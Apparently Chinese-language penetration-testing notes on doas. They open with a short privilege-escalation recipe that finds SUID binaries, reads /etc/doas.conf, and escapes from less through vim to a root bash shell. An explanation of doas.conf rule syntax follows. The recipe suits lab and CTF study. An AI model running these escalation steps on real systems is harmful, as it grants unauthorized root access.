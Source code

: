 doas可用于BSD系Linux发行版，提权思路类似于 `sudo -l` 中寻找可利用的文件

```bash
find / -perm -u=s -type f 2>/dev/null # /usr/bin/doas
cat /etc/doas.conf # config file
```

```bash
permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
```

```bash
/usr/bin/less /var/log/authlog # enter less
press v # enter vim mode
:!/bin/bash
```

# doas

doas 是一个用于在 Linux 系统中以其他用户身份执行命令的工具。它的设计目标是提供一个比 sudo 更简单、更小巧的替代品。
以下是 doas 的一些基本使用方法：

- 安装：你可以通过你的包管理器来安装 doas。例如，在 Debian 系统中，你可以使用 apt-get install doas 命令来安装。
- 配置：doas 的配置文件是 /etc/doas.conf。在这个文件中，你可以添加一些规则来控制哪些用户可以使用 doas 来执行哪些命令。例如，你可以添加一条规则来允许 wheel 组中的所有用户以任何用户的身份执行任何命令：permit :wheel。
- 使用：你可以通过在命令前面添加 doas 来使用 doas 执行命令。例如，你可以使用 doas cmd 来以其他用户的身份执行 cmd 命令。

# doas.conf

doas 命令用于根据 /etc/doas.conf 配置文件中的规则以其他用户的身份执行命令。 /etc/doas.conf 文件中的规则有以下格式：

```bash
permit | deny [options] identity [as target] [cmd command [args...]]
```

其中：

- permit | deny：这是规则的类型，表示是否允许（permit）或拒绝（deny）执行某个操作。
- options：这是一些可选的设置，例如 nopass（无需密码）和 persist（持久化）。
- identity：这是要执行命令的用户的身份。
- as target：这是可选的，表示以哪个用户的身份执行命令。
- cmd command [args...]：这是要执行的命令和参数。

例如，可以创建一个规则，允许 wheel 组中的所有用户以 root 用户的身份执行任何命令：

```bash
permit :wheel
```

表示允许属于"wheel"组的用户使用doas命令。通常情况下，OpenBSD系统中的管理员用户会被分配到"wheel"组，所以这个配置项允许这些管理员用户使用doas来执行特权操作。

例如，也可以创建一个规则，允许特定用户无需密码就可以执行特定命令：

```bash
permit nopass larry cmd /sbin/reboot
```

在这个例子中，用户 larry 可以无需密码就可以执行 /sbin/reboot 命令。